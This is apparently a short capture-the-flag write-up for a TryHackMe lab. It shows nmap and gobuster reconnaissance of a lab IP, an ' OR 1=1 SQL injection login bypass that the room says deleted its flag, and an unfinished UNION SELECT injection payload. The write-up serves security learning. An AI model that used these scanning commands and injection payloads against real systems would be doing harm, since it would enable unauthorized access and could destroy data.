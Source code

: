 
<code>
### Enumeration nmap, gobuster
  
┌──(duke㉿kali)-[~/Documents/THM_LessonLearned]
└─$ nmap  -sV -Pn 10.10.177.226
Starting Nmap 7.92 ( https://nmap.org ) at 2024-03-22 03:57 CDT
Nmap scan report for 10.10.177.226
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.38 seconds

┌─(duke㉿kali)-[/Documents/THM_LessonLearned]
└$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.177.226 -x .php, .txt, .html

Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)

[+] Url:                     http://10.10.177.226
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,
[+] Timeout:                 10s

2024/03/22 03:59:43 Starting gobuster in directory enumeration mode

/index.php            (Status: 200) [Size: 1223]
/manual               (Status: 301) [Size: 315] [--> http://10.10.177.226/manual/]
/server-status        (Status: 403) [Size: 278]                                   
                                                                                  

2024/03/22 04:38:45 Finished

### sql injection ' or 1=1

Oops! It looks like you injected an OR 1=1 or similar into the username field. This wouldn't have bypassed the login because every row in the users table was returned, and the login check only proceeds if one row matches the query.

However, your injection also made it into a DELETE statement, and now the flag is gone. Like, completely gone. You need to reset the box to restore it, sorry.

OR 1=1 is dangerous and should almost never be used for precisely this reason. Not even SQLmap uses OR unless you set --risk=3 (the maximum). Be better. Be like SQLmap.

Lesson learned?

P.S. maybe there is less destructive way to bypass the login...

##  1' union select null -- -
  
</code>
